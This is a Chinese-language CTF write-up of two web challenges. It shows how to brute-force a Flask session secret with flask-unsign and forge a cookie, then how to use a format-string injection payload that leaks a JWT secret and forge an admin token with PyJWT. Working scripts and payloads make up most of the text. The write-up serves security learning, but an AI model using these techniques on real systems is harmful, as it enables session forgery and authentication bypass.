

## [NSSRound#30 Duo]你也是迷宫高手吗

* 考点：JWT秘钥爆破
* 工具：flask-unsign

这道题需要爆破JWT的密钥，然后利用得到的秘钥重新构建jwt，将通关次数和时间进行修改，然后替换原有的cookie发送请求
有一个需要注意的点事由于提交时间只有10秒钟，所以最好直接通过脚本实现提交并捕获响应的html

jwt解析网站：[JSON Web Tokens - jwt.io](https://jwt.io/)

可以先通过抓包获取一个jwt，这里的jwt中的payload段为二进制字节，jwt-tool不能识别，爆破有问题，所以使用flask-unsign


填如cookie后执行命令爆破密码：

```sh
flask-unsign --unsign --cookie "eyJjb21wbGV0ZWRfbWF6ZXMiOjAsInN0YXJ0X3RpbWUiOjE3NDg1MjU5NTguODE2NjkxNH0.aDhjhg.U1PH_cd2fPgsL46kad950_bsA8E"
```



使用下面的这个脚本发送请求捕获html

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

import time
import requests
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

# —— 配置区 —— #
SECRET_KEY = "supersecretkey"
TARGET_URL = "http://node7.anna.nssctf.cn:20995/"

def sign_flask_session(data: dict, secret: str) -> str:
    """
    用 Flask 的内置 SecureCookieSessionInterface 对 data 签名，
    返回可以直接当作 session cookie 的字符串。
    """
    app = Flask(__name__)
    app.secret_key = secret
    serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    return serializer.dumps(data)

def main():
    session = requests.Session()

    # 举例做一次请求，你可以放在循环里做多次
    payload = {
        "completed_mazes": 10,
        "start_time": time.time()
    }
    signed_cookie = sign_flask_session(payload, SECRET_KEY)

    # 把签名好的 session cookie 设到 requests.Session 里
    session.cookies.set("session", signed_cookie, domain="node7.anna.nssctf.cn")

    # 发送 GET 请求
    resp = session.get(TARGET_URL)
    resp.raise_for_status()

    # 输出状态码和前 200 字符做预览
    print(f"[{resp.status_code}] →", resp.text[:200].replace("\n"," "))

    # 如果你要保存最后一次的完整 HTML 到文件：
    with open("final_response.html", "w", encoding="utf-8") as f:
        f.write(resp.text)
    print("✅ 最后一次返回的 HTML 已保存到 final_response.html")

if __name__ == "__main__":
    main()
```

打开得到的html文件，可以看到如下内容：


## [MoeCTF 2021]地狱通讯-改
* 考点：JWT，ssti
* 工具：yakit

通过网页源码可以看出有一个简单的逻辑会给我们cookie，然后并且明确说这个cookie是jwt加密的，并且只要payload中的name字段为admin，那么就能够得到flag
```py
from flask import Flask, render_template, request, session, redirect, make_response
from secret import secret, headers, User
import datetime
import jwt

app = Flask(__name__)


@app.route("/", methods=['GET', 'POST'])
def index():
    f = open("app.py", "r")
    ctx = f.read()
    f.close()
    res = make_response(ctx)
    name = request.args.get('name') or ''
    if 'admin' in name or name == '':
        return res
    payload = {
        "name": name,
    }
    token = jwt.encode(payload, secret, algorithm='HS256', headers=headers)
    res.set_cookie('token', token)
    return res


@app.route('/hello', methods=['GET', 'POST'])
def hello():
    token = request.cookies.get('token')
    if not token:
        return redirect('/', 302)
    try:
        name = jwt.decode(token, secret, algorithms=['HS256'])['name']
    except jwt.exceptions.InvalidSignatureError as e:
        return "Invalid token"
    if name != "admin":
        user = User(name)
        flag = request.args.get('flag') or ''
        message = "Hello {0}, your flag is" + flag
        return message.format(user)
    else:
        return render_template('flag.html', name=name)


if __name__ == "__main__":
    app.run()
```

这里由于网页会将通过flag变量传入的参数打印回来，所以可以理解为是一个ssti注入漏洞，直接回显了模块级全局字典，其中就有我们需要的secret key
所以构造payload：
```sh
/hello?flag={0.__class__.__init__.__globals__}
```


然后通过下面的脚本实现获取新的jwt：

```py
import jwt              # pip install pyjwt
import datetime

secret  = "u_have_kn0w_what_f0rmat_i5"
payload = {
    "name":  "admin",                    # 想伪造的字段
    "iat":   datetime.datetime.utcnow(), # 签发时间（可选）
    "exp":   datetime.datetime.utcnow() + datetime.timedelta(hours=1)  # 失效时间（可选）
}

# 明确指定同服务器一致的算法
token = jwt.encode(
    payload,
    key=secret,
    algorithm="HS256",
    headers={"typ": "JWT", "alg": "HS256"}   # 可省略，pyjwt 会自动生成
)

print(token)      # PyJWT 2.x 默认返回 str，1.x 返回 bytes

```
替换cookie得到flag


---